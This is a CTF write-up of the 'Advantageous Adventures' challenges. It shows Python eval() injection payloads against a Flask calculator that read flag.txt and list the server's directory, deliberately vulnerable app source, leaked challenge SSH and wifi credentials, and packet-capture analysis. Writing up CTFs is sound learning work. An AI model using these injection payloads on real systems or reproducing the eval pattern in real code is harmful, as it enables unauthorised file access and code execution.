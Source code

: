 # Advantageous Adventures

## First Bloods :\)

Managed to do up to AA-2 before I had to sleep as I had work the next day.

![](../../.gitbook/assets/b03306ada90443c2ae357adcc8b16b5b.png)

Woke up to solve AA-3 and AA-4!

![](../../.gitbook/assets/a083aabdd002476dbc3aba429204e85c.png)

## AA 1

The page offers a bunch of math calculators. Testing some simple payloads revealed that the backend was using Python's `eval()` to generate the results.

![](../../.gitbook/assets/e73984aeadda4448aaeec2efc121b28b.png)

Now, if we are going to read a flag, we are most probably going to be dealing with strings. If we are dealing with strings, one of the math operators is more useful than others: the `+` operator is the concatenation operator in Python.

![](../../.gitbook/assets/583642d23275420490ec56191729782b.png)

Using the simple payload `val1=''&val2=open('flag.txt').read()`, we can make the server return the contents of `flag.txt`.

![](../../.gitbook/assets/cb85fcac00f44b0ea03ed3c66f31a9a7.png)

## AA 2

Did you get what you needed from Advantageous Adventures 1? You'll need a username and password from the first challenge to proceed. I heard that the Advantageous Adventures team was using what you received to communicate on a low level. Can you figure out how they're talking?

All info for this challenge must be derived from Advantageous Adventures 1.

### Solution

We can import the os module.

`val1=''&val2=str(__import__('os').listdir())`

The result: `['__pycache__', 'static', 'secret_script.py', 'secret_info', 'flag.txt', 'app.py', 'README.md', 'templates', 'Dockerfile']`

![](../../.gitbook/assets/141a801238ba4a63863bf4e5a93ea1d2.png)

#### secret\_script.py

`val1=''&val2=open('secret_script.py').read()`

```python
from scapy.all import rdpcap, RadioTap, wrpcap

# run this on the file you get during the second challenge
# you don't need to understand all of it

packets = rdpcap('in.pcap')
fixed_packets = []

if len(packets) < 2153:
    # must have at least 2153 packets
    exit(1)

for packet in packets:
    # I know eval is unsafe but stackoverflow is down when script was created
    packet_bytes = eval(str(packet))
    fixed_packet_bytes = packet_bytes[14:]
    fixed_packets.append(RadioTap(fixed_packet_bytes))
wrpcap("out.pcap", fixed_packets)
```

#### secret\_info

```text
Make sure not to leak this info, needs to be super secret:
ip: chals1.umdctf.io
port: 3001
username: user
password: w0w_th3s3_@dv3ntur3s_r3@lly_@r3_outr@g30u5
wifi password: whose_adventure
```

#### app.py

```python
from flask import Flask, request, render_template
app = Flask(__name__)

@app.route('/')
def start():
    return render_template("home.html")

@app.route('/xor_calculator')
def xor_calculator():
    return render_template("calculator.html", calculate_type="xor")

@app.route('/add_calculator')
def add_calculator():
    return render_template("calculator.html", calculate_type="add")

@app.route('/mult_calculator')
def mult_calculator():
    return render_template("calculator.html", calculate_type="mult")

@app.route('/xor', methods=['POST'])
def xor():
    return calculate(0)

@app.route('/add', methods=['POST'])
def add():
    return calculate(1)

@app.route('/mult', methods=['POST'])
def mult():
    return calculate(2)


def calculate(operation_index):
    try:
        val1 = request.form['val1']
        val2 = request.form['val2']
        print(val1)
        print(val2)
        print(operation_index)
        if operation_index == 0:
            return str(eval(val1) ^ eval(val2))
        elif operation_index == 1:
            return str(eval(val1) + eval(val2))
        else:
            return str(eval(val1) * eval(val2))
    except Exception as e:
        print(e)
        return "An error occured"
```

We can SSH into the server using the credentials obtained above: `ssh user@chals1.umdctf.io -p 3001`

```text
user@b54d03d75f2b:/$ find / -name *pcap 2>/dev/null
/sys/bus/spi/drivers/ezx-pcap
/usr/bin/dumpcap
/usr/bin/text2pcap
```

We can use `dumpcap` to capture the network traffic.

Capture 2000+ packets on the WiFi interface: `dumpcap -i wlo2 -P`

After running the `secret_script.py`, transfer the `out.pcap` out using `scp`:

`scp -P 3001 user@chals1.umdctf.io:/home/ubuntu/out.pcap .`

Open in Wireshark, and we have our flag!

![](../../.gitbook/assets/c76294961f9e410c9ff3684ad582d550.png)

### AA 3

In Wireshark, we can decrypt the wireless traffic with the WiFi password found previously. This reveals another flag hidden in the data of the subsequent packets.

![](../../.gitbook/assets/5c328112b26d47c5a3cc58d54294e497.png)

### AA 4

Shortly below the above flag, we can see lots of packets with repeated numbers, starting from `0000...`, `1111...`, `2222...`, and so on. The number _itself_ probably doesn't mean much - we're looking for a string. But the length \(i.e. number of repeated numbers\) varies for each packet. This could be one way to encode data.

![](../../.gitbook/assets/0f971550f99c42928a8074e77759f8d8.png)

In Wireshark: Export packets as JSON. Then we can run a script to extract the flag:

```python
import json

data = json.load(open('capture.json'))

result = ''
i = 1    # ith packet
j = 0    # number = 1

for packet in data:

    if i < 500:
        i += 1
        continue

    packet_data = packet['_source']['layers']['data']
    char = chr((int(packet_data['data.len']) + 4 ) // len(str(j)))

    if not result.endswith(char):
        print(result, j)
        result += char
        j += 1

    i += 1

    if i > 2310:
        break

print(result)
```

![](../../.gitbook/assets/12222e1999df4de080daf0015db90953.png)

